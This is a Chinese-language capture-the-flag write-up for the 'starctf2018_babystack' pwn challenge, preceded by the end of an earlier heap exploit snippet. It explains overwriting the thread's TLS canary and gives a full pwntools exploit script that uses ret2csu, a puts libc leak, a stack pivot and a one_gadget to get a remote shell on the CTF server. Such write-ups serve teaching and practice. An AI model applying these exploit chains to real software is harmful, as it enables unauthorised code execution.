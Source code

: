 ```python
add(0x30, b'a\n')
add(0x10, p64(binsh) + p64(elf.plt['system']))
show(0)
ita()
```

# buu193-starctf2018_babystack

这道题有一个`pthread_create`函数创建了一个新的线程，在这个线程中有一个很大的栈溢出。这里我们需要通过对程序内存空间的分析理解本题的利用思路。
本题创建的线程的栈正好位于TLS结构体下面，TLS结构体位于libc加载基地址的前一页。记得TLS在house of emma中提到过，其中包含了canary的值，而本题中正好有canary，因此要溢出就必须溢出到覆盖canary的值。幸运的是，本题是可以实现的。
我们可以通过ret2csu调用read函数写入一个one gadget到bss段中某处，然后通过调用puts函数获取到libc的基地址，最后进行栈迁移将rsp修改为写one gadget的地址，最后调用one gagdet。这里进行栈迁移的主要目的是确保栈空间的完全纯净，因为几乎所有的one gadget都要求栈中某个地方的值为0。另外此题不能通过调用`system`函数的方式getshell，因为此时我们已经覆盖了TLS结构体，无法成功调用system函数，而one gadget通常都是使用syscall指令来get shell的，因此没有影响。

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 25587)
elf = ELF('./pwn')
poprdi = 0x400c03
poprsi_r15 = 0x400c01
leave_ret = 0x400A9B
poprbp = 0x400870
gad = 0x400BFA

io.sendlineafter(b'How many bytes do you want to send?', str(0x2000).encode())
payload = cyclic(0x28) + p64(0) + cyclic(4104 - 0x30)
payload += p64(0)	# canary
payload += p64(0)
payload += p64(poprdi)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(gad)
payload += p64(0)	# pop rbx
payload += p64(1)	# pop rbp
payload += p64(elf.got['read'])	# pop r12
payload += p64(0x100)	# pop r13
payload += p64(elf.bss() + 0x400)	# pop r14
payload += p64(0)	# pop r15
payload += p64(0x400BE0)
payload += p64(0) * 7
payload += p64(poprbp)
payload += p64(elf.bss() + 0x400)
payload += p64(leave_ret)
payload = payload.ljust(0x2000, b'\x00')

io.send(payload)
io.recvuntil(b'goodbye.\n')
puts = u64(io.recv(6) + b'\x00\x00')
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
system = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = p64(base + 0x4f322) * 4
io.sendline(payload)

io.interactive()
```
